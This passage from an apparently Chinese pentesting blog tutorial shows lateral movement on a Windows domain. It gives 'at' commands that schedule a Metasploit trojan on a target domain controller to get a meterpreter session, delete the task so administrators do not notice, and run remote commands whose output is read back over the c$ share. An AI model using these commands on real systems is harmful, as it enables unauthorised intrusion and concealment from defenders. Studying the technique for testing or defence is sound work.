 4\. 接着使用at命令创建计划任务，让目标主机DC在指定的时间运行metasploit木马程序：

```cobol
`at \\192.168.183.130 18:53:00 c:\shell.exe`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/803148460a586144dc60d0e9835c73e8.jpeg)

如上图，成功在目标主机上创建了一个ID为1，在18:53:00执行shell.exe程序的计划任务

等到时间到达18:53:00时，目标主机上的木马程序shell.exe执行，攻击者主机上面的msfconsole上成功获得目标主机的meterpreter：

![](https://i-blog.csdnimg.cn/blog_migrate/024f11557e11048ee8f65d417866a872.jpeg)

5\. 最后，我们使用完计划任务后，还需要将该计划任务删除，以免被网管理员发现：

```cobol
`at \\192.168.183.130 1 /delete`
`// 1为计划任务的ID`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/220f3e425d0cd25ecba2826cc854a1f0.jpeg)

除了就像上面那样利用计划任务执行木马程序获得主机权限外，我们还可以利用at计划任务直接执行系统命令，但由于不会回显，所以我们要将执行的结果写入到一个文本文件中，然后远程读取：

```cobol
`at \\192.168.183.130 17:05:00 cmd.exe /c "ipconfig > C:\Users\Administrator\result.txt"at \\192.168.183.130 17:05:00 cmd.exe /c "<命令>" > 目录\result.txt`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/2ecd419de3f4bec4676edcea17f3304a.jpeg)

然后用type命令远程读取该文本文件：

```crystal
`type \\192.168.183.130\c$\Users\Administrator\result.txt`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/21fb09edc05b95f0eb5ce41005b1c4c2.jpeg)
